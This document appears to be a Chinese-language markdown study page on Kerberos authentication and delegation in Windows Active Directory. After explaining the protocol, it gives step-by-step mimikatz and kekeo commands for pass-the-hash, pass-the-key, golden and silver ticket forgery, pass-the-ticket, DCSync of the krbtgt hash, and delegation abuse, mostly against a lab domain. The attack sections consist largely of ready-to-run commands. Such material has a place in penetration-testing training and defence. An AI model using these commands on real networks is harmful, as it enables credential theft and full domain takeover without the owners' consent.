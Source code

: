 ```yaml
---
layout: default
title: Kerberos协议
tags: windows
---
```


## kerberos 认证过程

### 角色

+ Client：访问服务的主机
+ Server：提供服务的主机
+ KDC（Key Distribution Center）：密钥分发中心，包含 AS（Authentication Service） 和 TGS（Ticket Granting Service）

### 过程

+ AS_REQ：Client 向 KDC 发送 ASREQ，请求凭据是 Client hash 加密的时间戳
+ AS_REP：KDC 使用 Client hash 进行解密，如果结果正确就返回 krbtgt hash 加密的 TGT 票据，TGT 票据里包含 PAC，PAC 包含 Client 的sid、Client 所在的组
+ TGS_REQ：Client 向 KDC 发送 TGT 票据，请求特定服务
+ TGS_RSP：KDC 使用 krbtgt hash 进行解密，如果结果正确，就返回用服务 hash 加密的 TGS 票据
+ AP_REQ：Client 使用 TGS 票据请求服务
+ AP_REP：服务用自己的 hash 解密 TGS 票据，如果解密正确，就发送 PAC 给 KDC，询问 Client 的访问权限，域控解密 PAC，获取 Client 的 sid，以及所在的组再根据服务的 ACL，判断 Client 的权限

## 委派

主机 A 使用主机 B 的某服务，此时需要通过主机 B 的某服务请求主机 C 的 某项专属 A 的服务，B 就需要代表 A 去访问 C 的该服务。

### 非约束性委派

被配置了约束性委派的主机B，会接受任何用户的委派去请求其他服务，原理是 A 将 TGT 发送到 B 中并缓存到 LSASS，B 就可以模拟用户去访问服务。

### 约束委派

约束委派将限制指定服务器可以代表用户执行的服务，原理是收到用户的请求之后，首先代表用户获得针对服务自身的可转发的kerberos服务票据(S4U2SELF)，拿着这个票据向KDC请求访问特定服务的可转发的TGS(S4U2PROXY)，并且代表用户访问特定服务，而且只能访问该特定服务（需要域管理员的权限）。

### 基于资源的约束委派

约束委派需要域管理员权限，为了使用户资源更加独立，微软引进了基于资源的约束委派。基于资源的约束委派允许资源配置受信任的帐户委派给他们。基于资源的约束委派将委派的控制权交给拥有被访问资源的管理员。



## 认证过程引发的安全问题

### PTH/PTK

PTH，即 pass the hash。在访问主机 RDP 服务时，进行认证的过程中，唯一用到的与 Client 密码相关的是 AS_REQ 中使用的 hash，因此没有明文密码也是可以认证的。如果 hash 的 ntlm hash，加密方式为 rc4，这种就属于 pth，如果 hash 是 aes key，就算是 pass the key。

#### mimikatz操作

##### PTH

```
在目标机器中抓取密码 hash：
privilege::debug
sekurlsa::logonpasswords

在本机 pass the hash：
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:ccef208c6485269c20db2cad21734fe7
```
##### PTK
```
在目标机器中抓取 key：
privilege::debug
mimikatz "privilege::debug" "sekurlsa::ekeys"

在本机 pass the key：
mimikatz "privilege::debug" "sekurlsa::pth /user:mary /domain:hack.test /aes256:c4388a1fb9bd65a88343a32c09e53ba6c1ead4de8a17a442e819e98c522fc288" 
```



### 黄金票据

AS_REP 中的 TGT 票据是使用 krbtgt 的 hash 进行加密的，如果拥有 krbtgt 的hash，就可以给自己签发任意用户的 TGT 票据，这个票据被称为黄金票据。

#### mimikatz

```
在域控内导出 kribtgt 的 hash：
privilege::Debug
lsadump::dcsync /domain:hack.test /user:krbtgt

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

生成黄金票据：
kerberos::golden /user:Administrator /domain:hack.test /sid:S-1-5-21-3763276348-88739081-2848684050 /krbtgt:d8d2ad72a119a8d418703f7a16580af6 /ticket:1.kirbi

在本机测试：
kerberos::purge // 清空已有票据
kerberos::ptt 1.kirbi	//导入票据
lsadump::dcsync /domain:test.com /user:krbtgt	// 导出 krbtgt 账号密码，作用是测试票据是否导入成功
```



### PTT

ptt，即 pass the ticket，Kerberos认证过程除了第一步AS_REQ是使用时间戳加密用户hash验证之外，其他验证都是通过票据，如果能拿到票据，就可以使用票据进行下个阶段的验证。

#### mimikatz

```
在域控中导出所有票据：
mimikatz.exe "privilege::debug" "sekurlsa::tickets /export"	

在本机导入票据：
kerberos::purge	//清除票据
mimikatz.exe "kerberos::ptt "[0;4ee98c]-2-0-60a00000-Administrator@krbtgt-GOD.ORG.kirbi"	//将票据注入到内存
```



### 白银票据

TGS_REP 中返回的 TGS 票据是使用服务的 hash 加密的，如果已经拥有服务的 hash，就可以给任意用户签发票据，访问特定服务，这就是白银票据。伪造的白银票据并没有与 KDC 通讯，所以票据里并没有带有有效 KDC 签名的 PAC，故如果目标主机配置为验证 KDC PAC签名，则白银票据失效。

#### mimikatz

```
域管账号登录域控，抓取密码hash：
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

在域内机器中获取域 sid（域用户sid去除最后一项）：
whoami /all

导入白银票据：
kerberos::golden /domain:hack.test /sid:S-1-5-21-4188752632-3746001697-3968431413 /target:dc.hack.test /rc4:6f949c52336e143ff8a2f5957416a73a /service:cifs /user:ceshi /ptt

导入命令详解：
kerberos::golden：使用minikatz中票据的功能
/domain：指定域名
/sid：域sid号
/target：主域控中的计算机全名
/rc4：在域控中抓取的hash(NTLM)
/service：需要伪造的服务（cifs只是其中的一种服务，可伪造的服务很多）
/user：需要伪造的用户名（可自定义）
/ppt：伪造了以后直接写入到内存中
```



### 非约束委派攻击

拿下配置非约束委派的服务器后，诱导域管访问，此时域管会将自己的 TGT 票据发送给该服务器并缓存到 Lsass 中，导出票据即可使用 PTT 接管域账号



### 约束委派攻击

拿下约束委派用户的账号密码后，可以向域控发送 TGT 请求，得到特定服务可转发的 TGS 票据

#### kekeo+mimikatz

```
已获取约束委派用户账号密码的前提下：

使用 kekeo 向域控发起 TGT 请求:
tgt::ask /user:test /domain:hack.test /password:Asdf1234 /ticket:test.kirbi

利用得到的 TGT 票据去 TGS 申请 ST 票据：
tgs::s4u /tgt:TGT_test@HACK.TEST_krbtgt~hack.test@hack.test.kirbi /user:Administrator@hack.test /service:cifs/DC.hack.test

mimikatz导入票据：
kerberos::ptt TGS_Administrator@hack.test@HACK.TEST_cifs~DC.hack.test@HACK.TEST.kirbi
```







